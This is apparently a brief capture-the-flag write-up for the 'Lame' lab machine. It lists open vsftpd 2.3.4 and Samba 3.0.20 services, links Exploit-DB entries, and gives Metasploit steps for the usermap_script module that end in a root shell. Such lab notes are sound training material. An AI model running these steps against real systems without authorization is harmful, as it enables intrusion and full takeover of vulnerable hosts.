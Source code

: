 # LAME 

```
21/tcp  open  ftp         vsftpd 2.3.4
```
there is an exploit for vsftpd 2.3.4
```
https://www.exploit-db.com/exploits/49757
```
but it doesnt work 

smbd 3.0.20 has also a CVE 
```
https://www.exploit-db.com/exploits/16320
```

so lets 
- msfconsole  
- use exploit/multi/samba/usermap_script

set LHOST RHOSTS LPORT and run 

we are already root
